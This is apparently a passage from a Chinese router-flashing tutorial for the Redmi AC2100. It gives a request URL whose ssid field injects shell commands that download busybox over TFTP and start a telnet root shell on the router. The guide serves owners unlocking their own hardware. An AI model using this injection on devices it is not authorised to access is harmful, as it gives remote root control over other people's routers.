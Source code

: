 <img src=".images\红米AC2100刷机流程-breed\image10.png" title="" alt="" data-align="center">

<img title="" src=".images\红米AC2100刷机流程-breed\image11.jpeg" alt="" data-align="center">

具体如下：

```shell
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=%0Acd%20%2Ftmp%0Atftp%20-gr%20busybox%20<IP>%0Achmod%20777%20busybox%0A.%2Fbusybox%20telnetd%20-l%20%2Fbin%2Fsh%20%26%0A
```

5\. 开启`tftp`服务器
